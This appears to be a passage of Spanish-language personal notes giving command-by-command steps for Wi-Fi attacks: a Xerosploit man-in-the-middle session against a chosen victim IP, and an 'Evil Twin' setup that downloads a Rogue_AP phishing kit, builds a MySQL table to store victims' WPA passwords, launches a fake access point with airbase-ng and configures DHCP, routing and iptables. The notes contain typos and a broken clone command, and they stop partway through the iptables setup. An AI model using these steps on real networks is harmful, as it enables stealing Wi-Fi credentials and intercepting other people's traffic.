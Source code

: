 	cd /opt
	sudo git clone lion/xesploit y especificar que máquina es para instalar
	 python3 xerosploit.py
	 scan --> detecta quipos conectados al acess-point
	 ip-mvic --> ip de la maquina atacar
	 help
	 replace
	 run
	 /home/deed/imagen.png
---
### EvilTwin
	cd /etc
	nano dhcpd.conf --> se crea un nuevo archivo de configuración para el dhcp
		authoritative;
		default-lease-time 600;
		max-lease-time 7200;
		subnet 192.168.1.128 netmask 255.255.255.128 {
			option subnetmask 255.255.255.128;
			option broadcast-address 192.168.1.255;
			option routers 192.168.1.129;
			option domain-name-servers 8.8.8.8;
			range 192.168.1.130 192.168.1.140;
		}
	ifconfig eth0 --> vemos la dirección ip para configurar el dhcpd.conf creado anterior
	Tener en cuenta que hay que tenerlo descomprimido en el /var/www/html
	sudo wget https://cdn.rootsh3ll.com/u/20180724181033/Rogue_AP.zip
	unzip Rogue_Ap.zip
	cd /var/www/html
	sudo mv /opt/Rogue_AP/* .
	service apache2 start && service mysql start --> creamos la base de datos para Rogue
	localhost --> levantamiento de un login
	cat index.html | grep "action" --> visualiza el usuario y contraseña de base de datos que intenta conectarse
	cat dbconnect.php --> configuración de base de datos
	sudo mysql -uroot --> conección a la bd
	create database rogue_AP;
	use rogue_AP
	cat dbconnect.php --> abirmos de otra consola, recuerde que esta en el /var/www/html
	create table wpa_keys(password1 varchar (32), password2 varchar (32)); --> crearlo dentro de rogue_AP
	show tables
	describe wpa_keys; --> indica una tabla y sus campos
	INSERT INTO wpa_keys (password1, password2) values ('deed', 'deed');
	show tables
	select * from wpa_keys;
	create user 'fakeap'@'localhost' indentified by 'fakeap'; --> crear un nuevo user
	show databases;
	grant all privileges on rogue_AP.* to 'fakeap'@'localhost'; --> habilita todos lo spriivilegios
	localhost --> abrimos el navegador e ingresamos uns credenciales y se guardara en la base de datos creada
	select * from wpa_keys --> verifica las credecniales guardadas
	sudo airbase-ng -e WIFI -c 7 -P wlan0 --> crea un punto de acceso falso
	cat /etc/dhcpd.conf --> no hay que perder de vista porque sirve para ver la estructura
	sudo ifconfig at0 192.168.1.129 netmask 255.255.255.128 --> crea un nuevo punto de interfaz teniendo en cuenta la escructura de dhcp.conf
	sudo route add -net 192.168.1.128 netmask 255.255.255.128 gw 192.168.1.129
	echo 1 > /proc/sys/net/ipv4/ip_forward --> habilitar enrutamiento en el equipo para que las reglas de iptables tengan sentido
	ifconfig --> visualiza la nueva interfaz
	iptables --flush --> limpieza de las iptables
	iptables --table nat --flush
	iptables --delete-chain
	iptables --tables nat --delete-chain